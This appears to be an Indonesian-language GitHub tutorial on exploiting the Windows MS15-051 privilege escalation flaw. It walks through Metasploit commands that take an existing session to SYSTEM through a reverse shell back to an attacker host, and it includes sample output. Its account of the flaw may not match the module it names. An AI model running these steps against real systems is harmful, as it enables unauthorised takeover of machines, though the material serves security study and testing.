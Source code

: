 # MS15-051

## A. Apa itu MS15-051?

[MS15-051]() adalah kerentanan local privilege escalation (LPE) pada driver kernel Windows `win32k.sys`. Kerentanan ini memungkinkan penyerang dengan hak akses user biasa untuk meningkatkan hak akses menjadi `NT AUTHORITY\SYSTEM`, level tertinggi dalam sistem Windows.

Eksploitasi ini memanfaatkan race condition dalam fungsi `NtSetWindowLongPtr()` yang memungkinkan manipulasi objek window di kernel secara tidak aman, sehingga memungkinkan overwrite pointer dan eksekusi kode sewenang-wenang dengan hak `SYSTEM`.

## B. Detail Teknis:
- **CVE ID**: `CVE-2015-1701`
- **Buletin Microsoft**: `MS15-051`
- **Tanggal Rilis**: `12 Mei 2015`
- **Tipe**: Local Privilege Escalation (`LPE`)
- **Arsitektur**: `x86` dan `x64`
- **Platform**: `Windows`

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `MS15-051`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/id-id/security-updates/securitybulletins/2015/ms15-051#affected-software](https://learn.microsoft.com/id-id/security-updates/securitybulletins/2015/ms15-051#affected-software)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS15-051:

   ```
   msf6 > use exploit/windows/local/ms15_051_client_copy_image
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [*] Reflectively injecting the exploit DLL and executing it...
   [*] Launching msiexec to host the DLL...
   [+] Process 1992 launched.
   [*] Reflectively injecting the DLL into 1992...
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Meterpreter session 15 opened (192.168.1.42:4444 -> 192.168.1.50:49174) at 2025-05-14 16:19:31 +0700

   meterpreter > 
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```
